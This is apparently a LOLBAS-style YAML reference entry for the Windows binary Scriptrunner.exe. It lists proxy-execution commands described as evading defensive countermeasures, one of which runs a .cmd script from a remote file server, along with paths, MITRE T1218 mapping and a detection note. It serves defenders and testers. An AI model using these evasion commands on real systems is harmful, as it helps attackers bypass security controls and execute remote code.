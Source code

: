 ```yaml
---
Name: Scriptrunner.exe
Description:
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: Scriptrunner.exe -appvscript calc.exe
    Description: Executes calc.exe
    Usecase: Execute binary through proxy binary to evade defensive counter measurments
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: ScriptRunner.exe -appvscript "\\fileserver\calc.cmd"
    Description: Executes calc.cmde from remote server
    Usecase: Execute binary through proxy binary  from external server to evade defensive counter measurments
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\scriptrunner.exe
  - Path: C:\Windows\SysWOW64\scriptrunner.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Scriptrunner.exe should not be in use unless App-v is deployed
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/914800377580503040
  - Link: https://twitter.com/NickTyrer/status/914234924655312896
  - Link: https://github.com/MoooKitty/Code-Execution
Acknowledgement:
  - Person: Nick Tyrer
    Handle: "@nicktyrer"
---
```

